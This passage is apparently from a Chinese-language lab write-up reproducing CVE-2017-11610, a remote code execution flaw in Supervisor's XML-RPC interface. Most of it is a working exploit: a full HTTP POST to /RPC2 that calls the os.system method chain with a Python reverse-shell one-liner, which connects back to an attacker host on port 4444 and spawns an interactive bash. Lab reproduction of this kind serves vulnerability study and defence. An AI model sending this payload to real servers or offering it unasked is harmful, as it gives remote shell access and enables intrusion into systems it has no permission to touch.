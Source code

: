 ![03](./img/supervisor_CVE-2017-11610/03.png)

使用 supervisor.supervisord.options.warnings.linecache.os.system 方法，首先在攻击机监听 4444 端口，等待靶机反弹 shell。

发送 payload 如下：

```
POST /RPC2 HTTP/1.1
Host: 192.168.1.189:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 428

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.182.234.169',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
</string>
</param>
</params>
</methodCall>
```

效果为利用`supervisor.supervisord.options.warnings.linecache.os.system`方法通过 python 程序反弹 shell，连接到攻击机的 4444 端口。
